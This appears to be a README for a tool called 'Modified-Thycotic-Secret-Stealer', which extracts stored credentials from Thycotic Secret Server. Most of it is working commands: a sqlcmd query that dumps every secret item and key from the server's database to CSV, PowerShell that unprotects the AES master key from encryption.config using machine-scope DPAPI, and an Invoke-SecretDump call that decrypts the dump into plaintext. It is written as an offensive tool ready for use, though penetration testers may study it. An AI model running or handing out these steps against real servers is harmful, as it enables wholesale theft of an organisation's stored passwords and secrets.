 # Modified-Thycotic-Secret-Stealer for <10.5 with DPAPI Integration

# SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
```
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>
```
